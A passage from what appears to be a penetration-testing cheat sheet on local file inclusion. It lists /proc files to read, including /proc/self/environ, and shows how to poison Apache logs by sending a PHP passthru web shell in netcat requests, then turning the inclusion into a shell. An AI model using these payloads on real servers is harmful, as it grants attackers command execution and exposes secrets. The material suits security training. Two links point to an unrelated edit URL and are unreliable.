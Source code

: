 ```
/proc/sched_debug # Can be used to see what pid's are being run, usually enabled on newer systems
/proc/mounts # Provides a list of mounted file-systems
/proc/net/arp 
/proc/net/route
/proc/net/tcp 
/proc/net/tcp6 
/proc/net/udp 
/proc/net/udp6
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

When enumerating `/proc/net/{tcp,udp}{,6}` files, these can be difficult to read.  Using this [script](https://gist.github.com/Reboare/2e0122b993b8557935fd37b27436f8c2), will format the output correctly.

[https://en.wikipedia.org/wiki/Procfs](https://www.gitbook.com/book/reboare/security/edit#)  
[https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/](https://www.gitbook.com/book/reboare/security/edit#)

## Bruteforcing SSH known\_hosts

[https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known\_hosts-files/](https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/)

## LFI to shell

Under the right circumstances you might be able to get a shell from a LFI

### Log poisoning

There are some requirements. We need to be able to read log files. In this example we are going to poison the apache log file. You can use either the success.log or the error.log

So once you have found a LFI vuln you have to inject php-code into the log file and then execute it.

**Insert php-code into the log file**

This can be done with nc or telnet.

```
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

You can also add it to the error-log by making a request to a page that doesn't exists

```
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```
